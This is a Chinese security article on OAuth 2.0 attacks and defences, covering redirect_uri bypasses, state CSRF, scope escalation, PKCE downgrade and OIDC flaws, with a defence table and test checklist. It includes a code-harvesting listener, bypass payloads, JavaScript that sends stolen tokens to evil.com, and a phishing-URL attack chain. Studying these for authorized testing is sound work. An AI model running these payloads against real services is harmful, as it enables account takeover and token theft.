

## 引言

OAuth 2.0 是当今 Web 和移动应用中最广泛使用的授权框架，Google、Facebook、GitHub 等平台均依赖它实现第三方登录与 API 授权。RFC 6749 将大量实现细节留给开发者自行决定，导致安全水平参差不齐。本文系统梳理 OAuth 2.0 常见攻击面，为渗透测试和安全评估提供参考。

**免责声明：** 本文技术仅供安全研究和授权测试使用，未经授权攻击他人系统属违法行为，作者不承担任何法律责任。

---

## OAuth 2.0 授权码模式流程



---

## 一、授权码拦截 (Authorization Code Interception)

授权码通过 URL 参数 `?code=xxx` 回传，被截获即可在过期前换取 access_token。

**常见场景：** HTTP 明文传输、Referer 头泄漏（回调页加载第三方资源）、服务器日志泄漏、回调页面开放重定向。

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import urlparse, parse_qs

class Stealer(BaseHTTPRequestHandler):
    def do_GET(self):
        code = parse_qs(urlparse(self.path).query).get('code', [None])[0]
        if code:
            print(f'[+] 截获: {code}')
        self.send_response(200)
        self.end_headers()
HTTPServer(('0.0.0.0', 80), Stealer).serve_forever()
```

**防御：** 强制 HTTPS + HSTS，`Referrer-Policy: no-referrer`，授权码短过期且一次性使用。

---

## 二、redirect_uri 绕过方法

redirect_uri 校验是 OAuth 安全核心防线。

### 2.1 子域与路径绕过

```
# *.example.com → 注册 attacker.example.com
redirect_uri=https://legit.example.com/../../evil.com/callback
```

### 2.2 正则薄弱点

```
https://legit.example.com.attacker.com/callback
https://legit.example.com@attacker.com/callback
```

### 2.3 参数污染与 CRLF

```
/authorize?redirect_uri=https://legit.com&redirect_uri=https://evil.com
redirect_uri=https://legit.com%0d%0aLocation:https://evil.com
```

### 2.4 App Scheme 劫持

移动端自定义 scheme（`myapp://callback`）可被恶意应用注册同名 scheme 劫持。

```xml
<intent-filter>
    <data android:scheme="myapp" android:host="callback"/>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.BROWSABLE"/>
</intent-filter>
```

### 2.5 Localhost 劫持

`redirect_uri=http://localhost:任意端口/callback`，攻击者在受害者本机监听截获。

---

## 三、State 参数 CSRF 攻击

`state` 绑定用户会话与授权请求，缺失或可预测则导致账户接管。

1. 攻击者完成 OAuth 获取 `code_attacker`
2. 构造 `/callback?code=code_attacker&state=attacker_state`
3. 受害者点击后，攻击者第三方账户绑定至受害者账号

```python
csrf_link = (
    f"https://victim-site.com/oauth/callback"
    f"?code={attacker_code}&state={attacker_state}"
)
```

**防御：** state 密码学安全随机生成，服务端严格校验，建议含 nonce 和签名。

---

## 四、Scope 权限提升

服务端不校验 scope 时，攻击者获得超出预期权限。

```
# 正常: scope=read  →  攻击: scope=read+write+admin+delete
```

**Scope 递增：** 首次 `scope=read`，再次 `scope=read+write+admin`，服务端仅检查已授权部分忽略新增项则提权。

**Refresh Token 提权：**

```python
resp = requests.post('https://auth.example.com/token', data={
    'grant_type': 'refresh_token',
    'refresh_token': 'low_token',
    'scope': 'read write admin',  # 提权尝试
})
```

**防御：** 服务端锁定 scope，拒绝客户端未授权扩增。

---

## 五、隐式流 Token 泄漏

隐式流在 URL Fragment 返回 token：

```
https://client.com/callback#access_token=xxx&token_type=bearer
```

Fragment 不发服务器但仍有风险：恶意 JS 读 `window.location.hash`、postMessage 监听、浏览器扩展。

```javascript
// postMessage 监听窃取
window.addEventListener('message', function(e) {
    if (e.data?.access_token) {
        fetch('https://evil.com/steal', {
            method: 'POST',
            body: JSON.stringify({token: e.data.access_token})
        });
    }
});
// Fragment 外传
new Image().src = 'https://evil.com/log?' + window.location.hash;
```

**防御：** 废弃隐式流，迁移至授权码 + PKCE。

---

## 六、PKCE 绕过

PKCE (RFC 7636) 通过 `code_verifier` 和 `code_challenge` 防授权码拦截：

```
verifier  = 随机字符串 (43-128 chars)
challenge = BASE64URL(SHA256(verifier))
授权: /authorize?code_challenge=xxx&code_challenge_method=S256
换 token: /token?code=xxx&code_verifier=yyy → SHA256(yyy)==xxx ?
```

### 6.1 降级攻击

服务端允许 `plain` 时，攻击者用已知值换 token：

```python
known = "aaaa...aaaa"  # 43 字符
# code_challenge=known&code_challenge_method=plain
# 截获 code 后直接用 known 换 token
```

### 6.2 未强制 PKCE

部分提供方对机密客户端不强制 PKCE，截获授权码后可直接用 client_secret 换 token。

**正确实现：**

```python
import secrets, hashlib, base64

verifier = secrets.token_urlsafe(32)
challenge = base64.urlsafe_b64encode(
    hashlib.sha256(verifier.encode()).digest()
).rstrip(b'=').decode()
# 强制 S256，禁用 plain
```

---

## 七、OAuth / OpenID Connect 混合攻击

### 7.1 混淆代理

客户端接受任意 issuer 的 id_token，攻击者注册恶意 OIDC Provider，用其公钥签发伪造 token 冒充任意用户。

### 7.2 ID Token 误用作 Access Token

```python
# 错误
headers = {'Authorization': f'Bearer {id_token}'}
# 正确
headers = {'Authorization': f'Bearer {access_token}'}
```

### 7.3 Audience 缺失

```python
import jwt
# 不安全
jwt.decode(token, key, algorithms=['RS256'])
# 安全
jwt.decode(token, key, algorithms=['RS256'], audience='my_client_id')
```

### 7.4 Nonce 缺失

```python
nonce = secrets.token_hex(16)
# /authorize?...&nonce=xxx → 回调校验 id_token['nonce']==nonce
```

---

## 综合攻击链

```python
"""OAuth 攻击链 - 仅限授权测试"""
import requests, secrets
from urllib.parse import urlencode

auth = "https://auth.target.com"
cid = "web_app_123"
white = "https://target-app.com"

bypasses = [
    f"{white}.evil.com/callback",
    f"{white}@evil.com/callback",
    f"{white}/%2e%2e/evil.com/callback",
]
for uri in bypasses:
    p = {'response_type':'code','client_id':cid,
         'redirect_uri':uri,'scope':'read write',
         'state':secrets.token_hex(8)}
    print(f"[*] {auth}/authorize?{urlencode(p)}")

# 钓鱼: redirect_uri 绕过 + scope 提权 + PKCE 降级
phish = (f"{auth}/authorize?response_type=code&client_id={cid}"
         f"&redirect_uri={bypasses[0]}&scope=read+write+admin"
         f"&state={secrets.token_hex(8)}"
         f"&code_challenge_method=plain&code_challenge=known")
print(f"[+] {phish}")
```

---

## 防御清单

| 层级 | 措施 | 针对攻击 |
|------|------|---------|
| 传输层 | 强制 HTTPS + HSTS | Token 嗅探 |
| 重定向 | 精确匹配 redirect_uri | redirect_uri 绕过 |
| 会话 | 安全随机 state 严格校验 | CSRF |
| 权限 | 服务端锁定 scope | Scope 提权 |
| PKCE | 强制 S256 禁用 plain | 授权码拦截 |
| Token | 短过期一次性绑定 client_id | Token 重放 |
| OIDC | 校验 aud/iss/nonce | OIDC 攻击 |
| 隐式流 | 废弃改用授权码+PKCE | Token 泄漏 |
| 移动端 | PKCE + App Links | Scheme 劫持 |

---

## 安全测试检查表

- [ ] HTTPS + HSTS 是否强制？
- [ ] redirect_uri 是否精确匹配、禁用通配符？
- [ ] 是否存在开放重定向？
- [ ] state 是否强制、不可预测、严格校验？
- [ ] scope 是否服务端锁定？
- [ ] 授权码是否一次性、短过期（<=60s）？
- [ ] PKCE 是否强制 S256、禁用 plain？
- [ ] client_secret 是否存于前端/移动包？
- [ ] Token 是否在 Referer 中泄漏？
- [ ] OIDC aud/iss/nonce 是否校验？
- [ ] 隐式流是否已废弃？
- [ ] 移动端是否使用 App Links / Universal Links？

---

## 结语

OAuth 2.0 攻击面庞大复杂，安全短板常在实现而非协议本身。RFC 6819、RFC 7636、RFC 8252 及 OAuth 2.1 草案持续强化安全，但最终取决于开发者对细节的把控。建议渗透测试重点关注 **redirect_uri 校验逻辑、state 参数机制、scope 校验策略和 PKCE 实现**四个核心点。

*本文仅供安全研究和授权测试使用，请遵守当地法律法规。*
